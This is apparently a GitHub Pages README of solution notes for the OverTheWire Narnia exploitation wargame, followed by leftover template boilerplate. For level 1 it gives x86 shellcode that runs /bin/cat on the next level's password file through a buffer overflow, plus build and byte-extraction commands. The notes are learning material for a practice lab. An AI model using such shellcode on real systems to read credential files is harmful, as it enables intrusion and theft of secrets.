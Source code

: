 ## Narnia Solutions

Here are short solutions I have written for Narnia levels. This is a wargame in overthewire.org. The main subject of the game is exploitation. I wrote only where I felt that there were not many sufficient solutions to the level.

### Narnia0

Well, I think that there are plany well written solutions for this level. I would like to mention, however, that the shellcode should be generated inside the shell (use python or ruby or perl, etc') because for some unusual reason, pasting a prepeared shellcode inside the shell **will not work**.


### Narnia1

To solve this level, we need to know assembly, x86 in this case (typing "lscpu" will reveal us the architecture and byte order, which are **important** for out shellcode). There are planty writeup's for this level, which most of them are incorrect (but I do recommand reading them in order to understand what is wrong), however. Moreover, I would advise you to learn how to write a shellcode in linux, because copying and pasting a shellcode from shell storm won't work in this case. So after we figure out that there is a buffer overflow with the enviromental variable, we want to inject our shellcode. Remeber, no null bytes and illegal chars!
Because spawning a regular shell won't work (the shell will be privileged with narnia1 user), we want to use the our vulnerability to open narnia2 password file. Let's dive into our shell code:
```
section .text
	global _start

_start:
	xor eax,eax
	push eax          ;end of the /bin/cat string
	push 0x7461632f
	push 0x6e69622f
	mov ebx, esp      ;ebx points to the start of the string
	push eax
	push 0x3261696e
	push 0x72616e2f
	push 0x73736170
	push 0x5f61696e
	push 0x72616e2f
	push 0x6374652f
	mov ecx, esp      ;ecx points to the start of the string (/etc/narnia_pass/narnia2)
  push eax          ;array has to end with null
	mov al, 11        ;we use execve syscall, numbered 11
	mov edx, esp      ;edx points to null (we don't need char *const envp[])
	push ecx          ;push the first arg (/etc/narnia_pass/narnia2)
	push ebx          ;push the second arg (/bin/cat
	mov ecx, esp      ;ecx points to array with two args
	int 0x80
```	
	
Now, we want to compile our code and link it, thus:
```nasm -f elf shell.asm -o shell.o
ld -m elf_i386 -s shell.o -o shell
```
(-m elf_i386 is not necessary, but was in my case)

Okay, let's extract our shellcode:
`for i in $(objdump -M intel -d shell | grep "^ "|cut -f2); do echo -n '\x'$i;done;echo`
and wallah!


- Bulleted
- List

1. Numbered
2. List

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/int3rsys/Narnia-solutions/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://help.github.com/categories/github-pages-basics/) or [contact support](https://github.com/contact) and we’ll help you sort it out.
